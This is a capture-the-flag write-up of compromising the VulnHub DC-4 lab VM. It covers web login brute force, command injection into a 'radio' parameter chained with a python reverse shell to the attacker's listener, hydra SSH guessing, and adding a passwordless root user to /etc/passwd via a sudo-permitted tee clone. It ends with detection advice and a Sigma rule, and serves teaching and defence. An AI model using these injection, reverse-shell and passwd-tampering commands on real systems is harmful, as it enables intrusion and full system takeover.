# VulnHub DC-4: Brute-Forced SSH to Root via a NOPASSWD teehee Binary

## Objective

Full compromise of VulnHub's "DC: 4" boot2root VM, on an isolated VirtualBox host-only network
against my own Kali attack box. One flag, root required.

## What I did

1. Host discovery and a full scan:
   ```
   arp-scan -l
   nmap -A 192.168.56.116
   ```
   Two ports open: 22/tcp (OpenSSH 7.4p1 Debian) and 80/tcp (nginx 1.15.10), hostname confirmed as
   `dc-4` via `http-title: System Tools`.

2. Added `192.168.56.116 dc-4` to `/etc/hosts`. The site is a plain "Admin Information Systems
   Login" form (username/password) with no other content exposed.

3. Captured a login attempt in Burp and ran it through Intruder, cycling a password wordlist
   against the `password` parameter with `username=admin`. One payload — `happy` — returned a
   `302` with a different response length (718 bytes vs. the uniform 557-byte failure responses),
   confirming `admin:happy`.

4. Logged in as `admin`. The app is a "System Tools" panel offering three fixed radio-button
   actions — **List Files**, **Disk Usage**, **Disk Free** — each posting a `radio` parameter to
   `command.php` and returning the shell output of a hard-coded command (e.g. `ls -l`).

5. The `radio` parameter is not validated server-side: Burp's Repeater confirmed that replacing
   its value with `cat+/etc/passwd` executed directly, returning the full passwd file (users
   `charles`, `jim`, `sam` alongside the standard system accounts).

6. Escalated the command-injection to an interactive shell by chaining a `nc` reverse shell behind
   `cat /etc/passwd` using a shell operator — `radio=cat+/etc/passwd;python+-c+'import socket,...` —
   which connected back to a `nc -nvlp 4242` listener as `www-data`.

7. With a shell as `www-data`, a dictionary attack (`hydra -L users -P old-passwords.bak
   192.168.56.116 ssh`, where `users` held the three account names from `/etc/passwd`) found a
   valid SSH credential for `jim` in under four minutes.

8. SSH'd in directly as `jim`. His home directory held a `backups/` folder and a `mbox` file; the
   mbox contained an internal "handover" email from a colleague, **Charles**, giving Charles's own
   account password in plain text as a courtesy before going on leave.

9. `su charles` with that password, then `sudo -l` showed `charles` could run exactly one command
   as root with no password: `/usr/bin/teehee`. `teehee` is GNU coreutils' `tee`-alike (writes
   stdin to a file while also echoing it) — running it as root with `sudo` means anything piped
   into it gets written as root, anywhere on disk.

10. Appended a new root-equivalent user by writing straight to `/etc/passwd`:
    ```
    echo "xtx::0:0:root:/root:/bin/bash" | sudo teehee -a /etc/passwd
    su xtx
    ```
    No password was needed for `xtx` since the passwd entry left the password field empty.

11. Confirmed root: `whoami` → `root`, then `cd /root && cat flag.txt` — the box's own
    congratulations banner, no `flag{}`-style token to capture.

## What I found

A chain of three separate, avoidable weaknesses stacked on top of each other:

- The admin login had no account lockout, so the credential was reachable by a straight Burp
  Intruder password sweep.
- The "System Tools" panel passed an unsanitised `radio` parameter straight to a shell command —
  textbook OS command injection, with no input validation at all.
- A `sudo` rule let a low-privilege user run `teehee` as root with no restriction on the target
  file, turning an otherwise-harmless coreutils tool into an arbitrary-file-write-as-root
  primitive — one line is enough to add a root account.

## How I found it

**Recon and the admin login**









**Command injection and a shell as www-data**






**Credential hopping to root**










## Detection

- **Password-sweep against the login form:** a burst of `POST` requests to the same login
  endpoint from one source IP with a constant username and varying passwords, each returning a
  uniform failure response until one differs in length/status — classic brute-force signature for
  a web application firewall or log-based alert on login-failure rate per source IP.
- **OS command injection via `radio`:** the `command.php` endpoint should only ever see one of
  three fixed values; any request where `radio` contains shell metacharacters (`;`, `|`, `` ` ``,
  `$(`) or a command name it never expects (`cat`, `nc`, `python`) is unambiguous and trivial to
  signature at the WAF layer.
- **Reverse shell spawn:** `www-data` spawning `python`/`nc`/`/bin/sh` as a child process — the
  same high-fidelity process-tree signal as any other web-shell compromise.
- **Lateral movement via SSH brute force:** repeated SSH auth failures for multiple usernames from
  one source in a short window (`sshd` auth log / `fail2ban` territory).
- **`teehee` privilege escalation:** any `sudo` invocation of `teehee` writing to `/etc/passwd`,
  `/etc/shadow`, or a sudoers file is definitionally malicious — there's no legitimate reason to
  `tee` into those paths as root from an interactive session. Auditd watching writes to
  `/etc/passwd` by non-standard parent processes catches this directly.

A minimal Sigma rule for the `/etc/passwd` tamper:

```yaml
title: Write to etc-passwd via a Non-Standard Process
status: experimental
description: Detects a process other than standard account-management tools writing to
    /etc/passwd, consistent with a sudo-rule privilege escalation.
logsource:
    category: file_event
    product: linux
detection:
    selection:
        TargetFilename: '/etc/passwd'
    filter:
        Image|endswith:
            - '/useradd'
            - '/usermod'
            - '/passwd'
            - '/vipw'
    condition: selection and not filter
falsepositives:
    - Configuration management tools (Ansible, Puppet) applying account changes
level: high
```

## Tools used

arp-scan, nmap, Burp Suite (Intruder and Repeater), a netcat reverse shell, hydra, ssh.
